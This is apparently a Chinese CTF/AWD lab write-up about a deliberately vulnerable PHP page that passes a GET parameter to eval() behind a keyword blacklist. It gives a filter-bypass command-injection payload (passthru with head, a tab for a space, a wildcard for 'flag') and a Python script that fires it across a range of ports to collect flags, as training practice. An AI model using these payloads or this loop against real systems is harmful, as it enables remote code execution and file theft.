



## [TASK1]AWD自动攻击模拟

### Level-0：题目绕过

打开即可看到题目代码

```php
<?php
error_reporting(0);
if(isset($_GET['cmd'])){
    $c = $_GET['cmd'];
    if(!preg_match("/cat|system|exec|tac|more|tail|flag|`|sort|\.|shell| |php/i", $c)){
        echo "flag藏在/flag";
        echo "<br>";
        eval($c);
    }
    else
    {
        die('hacker!!');
    }
    
}else{
    highlight_file(__FILE__);
}

?>
```

从代码可以看出，最终需要执行`eval`函数，但是`cmd`参数过滤了部分关键词

命令执行函数过滤了`system`和`exec`等函数，因此可以使用`passthru`函数进行绕过

读取文件过滤了如下命令

```bash
cat
tac
more
tail
......
```

读取文件还可以使用`head`命令

还过滤了flag关键词，可以使用`*`通配符

因此payload为：

`http://172.23.26.66:12345/?cmd=passthru("head%09/fla*");`



提交可得分



### Level-1：批量获取flag

代码如下：

```python
#coding:utf-8
import requests
tmp_url = 'http://172.23.26.66:'
for port in xrange(12345,12355):
	url = tmp_url + str(port) + '/?cmd=passthru("head%09/fla*");'
	res = requests.get(url)
	text = res.text
	s = "flag"
	flag = text[-39:-1]#从页面中获取flag
	print("port:"+str(port)+",flag:"+flag)
```

运行结果如下

